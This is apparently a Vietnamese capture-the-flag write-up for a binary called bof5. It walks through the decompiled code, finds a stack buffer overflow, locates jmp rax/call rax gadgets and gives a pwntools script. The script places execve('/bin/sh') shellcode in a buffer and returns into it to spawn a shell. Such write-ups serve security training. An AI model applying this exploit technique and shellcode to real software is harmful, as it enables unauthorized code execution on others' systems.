



**1. Tìm lỗi**

Chạy thử file ta được:



Dùng lệnh 'file' kiểm tra:

```
bof5: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=3267d9785684992c18bae6fce662aec708bef193, for GNU/Linux 3.2.0, not stripped
```

---> Mở bằng IDA64 ta có:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[80]; // [rsp+0h] [rbp-50h] BYREF

  init(argc, argv, envp);
  run(v4);
  return 0;
}
```

Hàm run:

```
void *__fastcall run(void *a1)
{
  char v2[524]; // [rsp+10h] [rbp-210h] BYREF
  int v3; // [rsp+21Ch] [rbp-4h]

  v3 = 0;
  puts("What's your name?");
  printf("> ");
  read(0, a1, 0x50uLL);
  puts("What do you want for christmas?");
  printf("> ");
  read(0, v2, 0x220uLL);
  return a1;
}
```

Hàm trước tiên khai báo một mảng ký tự v2 có kích thước 524 byte, và một biến số nguyên v3 được khởi tạo bằng giá trị 0.

Sau đó, hàm sử dụng hàm puts() để in ra câu hỏi "What's your name?", và sử dụng hàm printf() để yêu cầu người dùng nhập tên của họ. Hàm read() được gọi đến, đọc tối đa 0x50 (80) byte thông tin người dùng nhập vào từ stdin và lưu trữ vào vùng nhớ được trỏ tới bởi con trỏ void a1.

Tiếp theo, hàm yêu cầu người dùng cho biết món quà Giáng sinh mà họ muốn nhận bằng cách sử dụng hàm puts() và printf(), và đọc tối đa 0x220 (544) byte thông tin từ stdin bằng hàm read(), lưu trữ thông tin vào mảng ký tự v2 nhưng biến v2 được khai báo là 524 byte -> Có lỗi bof.


Cuối cùng, hàm trả về con trỏ void a1, chứa tên của người dùng.

**2. Ý tưởng**

Chúng ta sẽ lưu shellcode ở biến a1. Sau đó nhập tràn từ biến v2 đến ret rồi điều hướng lại biến a1 để thực thi shellcode.

**3. Khai thác**

```
   0x0000000000401217 <+58>:    mov    rax,QWORD PTR [rbp-0x218]
   0x000000000040121e <+65>:    mov    edx,0x50
   0x0000000000401223 <+70>:    mov    rsi,rax
   0x0000000000401226 <+73>:    mov    edi,0x0
   0x000000000040122b <+78>:    call   0x4010a0 <read@plt>
```

Biến a1 được nhập tối đa 0x50 byte --> Được phép viết shellcode với 0x50 byte.

```
   0x000000000040124d <+112>:   lea    rax,[rbp-0x210]
   0x0000000000401254 <+119>:   mov    edx,0x220
   0x0000000000401259 <+124>:   mov    rsi,rax
   0x000000000040125c <+127>:   mov    edi,0x0
   0x0000000000401261 <+132>:   call   0x4010a0 <read@plt>
```

Khoảng cách từ v2 đến rbp là: 0x210 byte. Vậy nên khoảng cách từ biến v2 đến ret là: 0x210 + 0x8.

Ta thấy ở trước lệnh ret là:

```
0x0000000000401266 <+137>:   mov    rax,QWORD PTR [rbp-0x218]
```

Chương trình đã gán giá trị a1 cho rax hay shellcode mình muốn chèn vào nên chỉ cần kiếm một số gadget về rax là được.

Ta kiếm được 2 gadget có ích như sau:

```
0x0000000000401014 : call rax
0x000000000040110c : jmp rax
```

Tiếp theo là kiếm shellcode hoặc tự viết. Tôi kiếm được 1 cái như sau:

```
"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
```

Bây giờ thử trước với gadget jmp_rax ta break ở ret xem đã đến được shellcode của mình chưa:



Vậy chương trình đã ret về shellcode của mình.

Ta có script như sau:

```
from pwn import *

exe = ELF('./bof5')
r = process(exe.path)

call_rax = 0x0000000000401014
jmp_rax = 0x000000000040110c
shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
payload = b'a'*(0x210 + 0x8) + p64(jmp_rax)
#input()
r.sendafter(b'> ', shellcode)
r.sendafter(b'> ', payload)
r.interactive()
```

**4. Lấy flag**


